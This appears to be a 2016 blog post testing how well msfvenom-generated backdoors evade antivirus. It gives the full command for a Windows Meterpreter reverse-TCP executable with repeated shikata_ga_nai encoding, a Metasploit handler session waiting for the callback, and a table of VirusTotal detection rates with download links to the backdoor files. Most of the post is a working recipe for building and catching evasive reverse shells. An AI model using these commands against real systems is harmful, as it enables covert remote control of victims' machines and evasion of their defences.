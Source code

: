 ```yaml
---
layout: post
title:  "Antivirus evading backdoors"
date:   2016-06-14 15:16:05 +0430
categories: 
---
```


Let's try to make a backdoor and see how well it can evade antivirus programs.

For this test case, we will use different tools:

- **msfvenom**: a command-line utility for creating backdoors that comes with [Metasploit](https://www.metasploit.com)
- [virustotal](https://virustotal.com): a website which allows to upload a file and have it checked by multiple antivirus programs
- **Windows XP**: we will execute the different generated backdoors on a Windows XP Professional SP2

The test case will each time be executed with the same steps:

1. Create a backdoor with a certain number of iterations (in this example 2):

   ```bash
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=8080 -f exe -e x86/shikata_ga_nai -i 2 > backdoor2.exe
   ```

   We will use the Meterpreter payload with a reverse TCP. The paramater LHOST represents the host to which we want to have our infected machine connect. The parameter LPORT corresponds with the port to which the infected machine should connect. We will use the x86/shikata_ga_nai encoding, which has a rating of excellent. The flag -i represents the number of iterations.

2. Start a handler to listen for the infected machine to connect back to the attacking machine:

   ```
   $ msfconsole
                                                  
   IIIIII    dTb.dTb        _.---._
     II     4'  v  'B   .'"".'/|\`.""'.
     II     6.     .P  :  .' / | \ `.  :
     II     'T;. .;P'  '.'  /  |  \  `.'
     II      'T; ;P'    `. /   |   \ .'
   IIIIII     'YvP'       `-.__|__.-'

   I love shells --egypt


          =[ metasploit v4.11.26-dev                         ]
   + -- --=[ 1539 exploits - 894 auxiliary - 265 post        ]
   + -- --=[ 438 payloads - 38 encoders - 8 nops             ]
   + -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

   msf > use exploit/multi/handler
   msf exploit(handler) > set LHOST 192.168.0.1
   LHOST => 192.168.0.1
   msf exploit(handler) > set LPORT 8080
   LPORT => 8080
   msf exploit(handler) > run

   [*] Started reverse TCP handler on 192.168.0.1:8080 
   [*] Starting the payload handler...
   ```

3. Copy the backdoor the Windows XP machine and execute it. Check if the backdoor executes with success.

4. Upload the backdoor to virustotal and check its result.

The conclusions may be found in the table below:

| Encoding iterations | Working? | virustotal detection rate | virustotal link | Download backdoor | 
| ------------------- | -------- | ------------------------- | --------------- | ----------------- |
| 0                   | Yes      | 34/48                     | [virustotal](https://virustotal.com/en/file/36b8a578e725b8b9d53305db6cc8e0640cbca21330875709fb00de0bfe37b8c7/analysis/) | [backdoor0.exe](/downloads/backdoor0.exe) |
| 1                   | Yes      | 30/44                     | [virustotal](https://virustotal.com/en/file/da2cbc3c7a9f92b7fdbfcab093ee2e2c431dd2ec379659a9e700d48fd0e8326d/analysis/) | [backdoor1.exe](/downloads/backdoor1.exe) |  
| 2                   | Yes      | 34/48                     | [virustotal](https://virustotal.com/en/file/0adae23c23f904aefad82d61bdd39d7f4611ebc7ab79242cf3d4bdc572170edf/analysis/) | [backdoor2.exe](/downloads/backdoor2.exe) |
| 10                  | Yes      | 29/44                     | [virustotal](https://virustotal.com/en/file/f5654c96ebf76aee40bf292a55da6cd3a1d71cc33d9cfcd48f54e7776c67c136/analysis/) | [backdoor10.exe](/downloads/backdoor10.exe) |
| 20                  | No       | 29/44                     | [virustotal](https://virustotal.com/en/file/4bfa0e92ca7ea2f31e33cbb87d3024c47027f672efdb45ca51bbea2a955b78f6/analysis/) | [backdoor20.exe](/downloads/backdoor20.exe) |



